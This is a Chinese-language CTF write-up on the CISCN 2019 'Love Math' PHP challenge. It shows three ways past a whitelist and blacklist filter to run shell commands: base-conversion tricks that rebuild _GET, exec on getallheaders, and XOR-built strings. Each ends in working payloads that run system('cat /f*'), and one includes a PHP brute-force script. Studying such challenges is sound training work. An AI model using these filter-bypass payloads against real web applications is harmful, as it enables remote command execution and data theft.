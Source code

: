 # [CISCN 2019 初赛]Love Math 通过进制转换执行命令

**目录**

[TOC]





这道题也是很有意思！

通过规定白名单和黑名单 指定了函数为数学函数 并且参数也只能是规定在白名单中的参数

我们首先要了解 通过进制转换执行命令的第一时间就是想到 hex2bin/bin2hex

## hex2bin    bin2hex

这个函数可以将十六进制转换为ASCII码 从而实现数字到字符



<img src="https://i-blog.csdnimg.cn/blog_migrate/b5eecb6249c1be2d26d60cb48e66b394.png" alt="" style="max-height:259px; box-sizing:content-box;" />


所以我们可以通过这里的

接着我们需要了解 base_convert()函数

## base_convert

这函数是可以将任意进制进行互相转换

我们这里给出例子



<img src="https://i-blog.csdnimg.cn/blog_migrate/d4f9d2b19d28c38c279b15a82fcf9856.png" alt="" style="max-height:245px; box-sizing:content-box;" />


这里的hex2bin是36进制 所以这里可以将十进制转换为字符形式

## 动态函数



<img src="https://i-blog.csdnimg.cn/blog_migrate/da2b2b643670235879322d43b902a7c1.png" alt="" style="max-height:183px; box-sizing:content-box;" />


## 第一种解法  通过get获取参数

我们无法实现system(cat /flag) 因为36进制不接受特殊的符号 例如空格 所以我们无法直接获取到指令

但是我们换位思考一下

```bash
$a($b)
 
$a=system
 
$b=cat /f*
 
最后是不是就是 system(cat /f*)
```

现在问题在于我们如何接收到参数

这里主要就是通过GET POST方式

```cobol
_GET[1](_GET[2])
 
1=system
 
2=cat /f*
 
是不是就等于 system(cat /f*)
```

现在问题转换为如何传递字符了

因为_GET[]都不在白名单中 甚至[]还在黑名单中

这里就涉及绕过了

### 绕过

首先[] 可以通过  {}绕过 很简单

其次_GET 我们可以通过数学编码

我们上面了解的hex2bin 就是可以将十六进制转变为ASCII

这样我们就可以构造_GET了

首先通过 bin2hex转变



<img src="https://i-blog.csdnimg.cn/blog_migrate/6a98c0c90f721787c65f88a3a4141240.png" alt="" style="max-height:242px; box-sizing:content-box;" />


得到16进制

但是这里面存在字符



<img src="https://i-blog.csdnimg.cn/blog_migrate/103c0d4e8a2b5ddaa30f0659fbfcaa79.png" alt="" style="max-height:263px; box-sizing:content-box;" />


发现正则过滤了字母 所以我们要将他换为全数字 就是十进制



<img src="https://i-blog.csdnimg.cn/blog_migrate/38a3d8051a9dc2622d5111269fd23c00.png" alt="" style="max-height:209px; box-sizing:content-box;" />


然后通过dechex转换



<img src="https://i-blog.csdnimg.cn/blog_migrate/228fe6e8466a3313c61897790b37a88a.png" alt="" style="max-height:224px; box-sizing:content-box;" />


最后就是hex2bin的了 我们只需要将其的10进制转换为36进制即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/43eff121a010ea4c6a6a93a607e4c008.png" alt="" style="max-height:266px; box-sizing:content-box;" />




```cobol
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /*
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/05a3639ab4461a1722080c437a377915.png" alt="" style="max-height:140px; box-sizing:content-box;" />


我给大家简化一下

```cobol
c=$pi=hex2bin(5f474554) 这里相当于 c=$pi=_GET
 
($$pi){pi}  这里相当于 $_GET{pi}
(($$pi){abs})  这里相当于 ($_GET{abs})
 
组合起来 $_GET{pi}($_GET{abs})
 
 
pi=system  abs=cat /f*
 
就可以是 system(cat /f*)
```

## 第二种解法  读取请求头

首先 我们构造 get很绕很麻烦 我们能不能直接执行命令

既然我们无法读取get的内容 那么我们直接接受请求头呢

这里就存在一个函数

### getallheaders

```undefined
getallheaders
```

可以接受请求头



<img src="https://i-blog.csdnimg.cn/blog_migrate/43c9fd77bca23d8c93b2d2b8acf2f271.png" alt="" style="max-height:639px; box-sizing:content-box;" />


我们直接使用 exec(getallheaders) 来执行这个命令

这里还需要了了解一个知识点

### echo a,b

```less
echo a,b
 
ab都会输出
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/008aacd4b3086f99eb22156d83752337.png" alt="" style="max-height:276px; box-sizing:content-box;" />


所以我们可以直接通过 exec a,b来执行

通过36进制换算

```cobol
c=$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```

然后通过1:cat /f*访问即可

这里getallheaders需要30进制



<img src="https://i-blog.csdnimg.cn/blog_migrate/82418eed8dbda7a329a28a0550b6f7f7.png" alt="" style="max-height:404px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/bc78cb67569577be6e484a01cb23d657.png" alt="" style="max-height:601px; box-sizing:content-box;" />


## 第三种解法 异或获得更多字符

我们能不能直接获取flag呢

我们通过异或来获取更多的字符串

我们来编写php代码

```php
<?php
$pl=['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($pl);$k++){
    for($i=0;$i < 9;$i++){
        for($j=1;$j <= 9; $j++){
            $exp=$pl[$k]^$i.$j;
            echo($pl[$k]."^".$i.$j."===>".$exp);
            echo "        ";
        }
    }
}
?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/91d1e860a3b26a5df7c1fec658f06914.png" alt="" style="max-height:123px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/bf82749a9bbda83b38a3343760ad4f58.png" alt="" style="max-height:65px; box-sizing:content-box;" />


获取_GET了

直接和第一个一样即可

```cobol
?c=$pi=(mt_srand^(2).(3)).(tanh^(1).(5));$$pi{1}($$pi{0})&1=system&0=cat /f*
```
